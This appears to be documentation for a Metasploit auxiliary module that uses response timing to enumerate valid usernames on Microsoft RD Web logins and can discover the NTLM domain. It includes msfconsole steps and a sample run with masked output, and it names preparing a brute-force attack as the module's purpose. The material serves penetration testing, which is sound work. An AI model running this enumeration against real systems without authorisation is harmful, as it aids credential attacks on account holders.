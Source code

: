 ## Vulnerable Application

The Microsoft RD Web login is vulnerable to the same type of authentication username enumeration vulnerability
that is present for OWA. By analyzing the time it takes for a failed response,
the RDWeb interface can be used to quickly test the validity of a set of usernames. Additionally,
this module can attempt to discover the target NTLM domain if you don't already know it.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/rdp_web_login`
- [ ] `set rhost TARGET_IP`
- [ ] `set username USER_OR_FILE`
- [ ] `set domain DOMAIN` (Only if you don't want to test the domain discovery feature)
- [ ] Check output for validity of your test username(s)/domain


## Options

### domain

The target domain to use for the username checks. If not provided, enum_domain needs to be set to true so it can be discovered.

### enum_domain

Enumerate the domain by using an NTLM challenge/response and parsing the AD Domain out.

### username

Either a specific username to verify or a file with one username per line to verify.

## Scenarios
If an RDWeb login page is discovered, you can use this module to gather valid usernames for a brute force attack.

Specific target output replaced with Ys so as not to disclose information
```msf6 > use auxiliary/scanner/http/rdp_web_login
msf6 auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set RHOSTS YY.YYY.YYY.YY
RHOSTS => YY.YYY.YYY.YY
msf6 auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYYYYYYYYYY
[-] Username YYYYYYYYYYYY\wrong is invalid! No response received in 1250 milliseconds
[+] Username YYYYYYYYYYYY\YYYYY is valid! Response received in 628.877 milliseconds
[-] Username YYYYYYYYYYYY\k0pak4 is invalid! No response received in 1250 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against Microsoft IIS 10.0 and RDWeb 2019
